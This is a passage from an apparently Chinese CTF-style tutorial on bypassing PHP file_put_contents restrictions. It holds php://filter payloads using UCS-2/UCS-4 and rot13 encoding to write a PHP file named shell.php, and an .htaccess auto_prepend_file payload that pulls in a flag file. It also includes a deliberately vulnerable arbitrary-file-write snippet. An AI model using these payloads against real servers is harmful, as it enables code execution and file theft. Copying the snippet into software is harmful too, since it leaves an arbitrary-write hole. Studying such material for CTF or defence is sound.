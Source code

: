 > 
**UCS2/ROT13、UCS4/ROT13：**<br/> 这里在自己测试的发现，使用UCS2或UCS4进行编码时，这个过程是识别空格的，但是到使用伪协议的时候需要进行反转解码，又无法识别空格，这就是为什么下面的payload要多加一个字符


```
Payload：

?content=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE|string.rot13|x?&lt;uc cucvcsa(b;)&gt;?/resource=shell.php
# 注意这里要补充一个字符，因为空格无法和任意一个字符搭配进行反转

```

> 
**UCS4/ROT13：**


```
?content=php://filter/write=convert.iconv.UCS-4LE.UCS-4BE|string.rot13|x?&lt;xx cucvcuc(bsa&gt;?;)/resource=shell1.php

```

#### 第三种情况

```
&lt;?php
if(isset($_GET['content'])){
    $filename = $_GET['filename'];
    $content = $_GET['content'];
    file_put_contents($filename,$content . "\nxxxxxx");
}else{
    highlight_file(__FILE__);
}

```

> 
这种考点一般的话是禁止有特殊起始符和结束符号的语言，如果不禁，直接写入PHP代码就可以执行了，后面的限制也就没有什么意义了，这类问题往往是需要想办法处理掉杂糅代码的


> 
**.htaccess绕过：**<br/> 使用.htaccess文件绕过需要注意该文件是很敏感的，如果有杂糅代码，便会出现错误，导致无法操作，可以使用注释符来将杂糅代码给注释掉


```
Payload：

?filename=.htaccess&amp;content=php_value auto_prepend_file D:\flag.php%0a%23\

```

> 
这里我本机测试时无法执行.htaccess，借用了一下别人的图 (还是太菜了~~)


## 包含日志
